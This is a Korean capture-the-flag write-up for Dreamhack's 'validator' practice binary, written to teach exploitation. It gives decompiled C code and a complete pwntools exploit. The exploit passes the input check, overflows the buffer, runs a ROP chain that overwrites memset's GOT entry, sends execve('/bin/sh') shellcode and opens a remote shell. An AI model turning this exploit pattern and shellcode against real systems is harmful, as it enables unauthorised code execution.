

# validator

- [문제 페이지](https://dreamhack.io/wargame/challenges/94)

## 문제 해설
이번 문제는 c코드가 주어지지 않았다.

따라서, ida와 gdb를 같이 사용하며 문제 풀이를 진행하였다.

먼저 ida프로에서 디컴파일된 c코드를 먼저 살펴보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char* correct= "DREAMHACK!";

int validate(char *s, unsigned int a2)
{
  unsigned int i; // [rsp+1Ch] [rbp-4h]
  signed int j; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 9; ++i )
  {
    printf("i: %d\n", i);
    if ( s[i] != correct[i] )
      exit(0);
  }
  for ( j = 11; a2 > j; ++j )
  {
    printf("j: %d\n", j);
    printf("%d %d\n", s[j], s[j+1]);
    if ( (unsigned int)s[j] != s[j + 1] + 1 )
      exit(0);
  }
  return 0LL;
}

int main(int argc, const char **argv, const char **envp)
{
  char s[0x80]; // [rsp+0h] [rbp-80h]

  memset(s, 0, 16uLL);
  read(0, s, 1024uLL);
  validate(s, 128uLL);
  return 0;
}
```
이는 ida를 통해 디컴파일된 코드를 실제 컴파일 가능한 c코드로 변형한 것이다.

인덱스가 0~9까지의 s가 "DREAMHACK!"인지, 인덱스가 11~128까지의 s가 s[i] = s[i+1]+1인지 판단하는 validate코드를 거친다.

이를 우회하기 위한 코드를 살펴보자.

```python
# validate
payload = b"DREAMHACK! "
i = 127;
while(True):
    if(len(payload) == 129):
        break;
    payload += (i).to_bytes(1, byteorder="little")
    i -= 1
payload += b"a"*7
```
payload를 앞서서 설명한 validate를 통과할 수 있도록 작성한 코드이다.

이제, /bin/sh를 실행시키기 위한 코드가 필요하다.

먼저 canary가 존재하지 않기 때문에, bof가 가능하다.

하지만, bof를 위해 /bin/sh를 실행시키 위한 함수가 파일 내에 존재하지 않고, libc파일 또한 주어지지 않았다.

따라서, rop를 발생시켜 /bin/sh를 실행시킬 수 있다.

파일 내에는 read함수가 존재한다. 이를 활용하여 memset의 got를 shellcode로 변경한 후 이를 실행하면 된다.

rop를 위한 가젯을 다음과 같다.

```python
# gadgets
pop_rdi =       0x00000000004006f3
pop_rsi_r15 =   0x00000000004006f1
pop_rdx =       0x000000000040057b
```

s는 $rbp-0x80에 존재하기 때문에 이전 0x88만큼은 채워두어야 한다.

이제, rop를 발생시키자.
```python
# ROP
payload += p64(pop_rdi)
payload += p64(0)

payload += p64(pop_rsi_r15)
payload += p64(e.got["memset"])
payload += p64(0)

payload += p64(pop_rdx)
payload += p64(0xffff)

payload += p64(e.plt["read"])

payload += p64(e.got["memset"])

p.send(payload)
```
이를 통해 read함수가 실행될 것이기 때문에 memset 함수를 shellcode로 변경해보자.

shellcode는 31bit shellcode를 사용했다.

다른 shellcode모두 사용해보았으나, 31bit shellcode만 /bin/sh를 성공적으로 실행시켰다.

```python
# shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
p.send(shellcode)
```
shellcode를 넣는 코드는 다음과 같다.

이제 모든 코드를 종합해 작성하면,
```python
from pwn import *

# gadgets
pop_rdi =       0x00000000004006f3
pop_rsi_r15 =   0x00000000004006f1
pop_rdx =       0x000000000040057b

# remote connect
#p = process("./validator_dist")
p = remote("host1.dreamhack.games", 11534)
e = ELF("./validator_dist")

# validate
payload = b"DREAMHACK! "
i = 127;
while(True):
    if(len(payload) == 129):
        break;
    payload += (i).to_bytes(1, byteorder="little")
    i -= 1
payload += b"a"*7

# ROP
payload += p64(pop_rdi)
payload += p64(0)

payload += p64(pop_rsi_r15)
payload += p64(e.got["memset"])
payload += p64(0)

payload += p64(pop_rdx)
payload += p64(0xffff)

payload += p64(e.plt["read"])

payload += p64(e.got["memset"])

p.send(payload)

# shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
p.send(shellcode)

p.interactive()
```
이다.

이를 실행시키면, 
```
[*] Switching to interactive mode
$ ls
flag
run.sh
validator
$ cat flag
DH{****************************************}
```
이다. 



## 풀이 소감

dreamhack의 system hack 기본의 마지막 문제이다보니 이전에 배운 많은 기법을 사용할 수 있었다. bof, 코드 읽기, rop 등을 통해 학습과정을 통해 배운 기법을 사용하며, 다시 한번 정리할 수 있는 풀이 과정이 됐다.

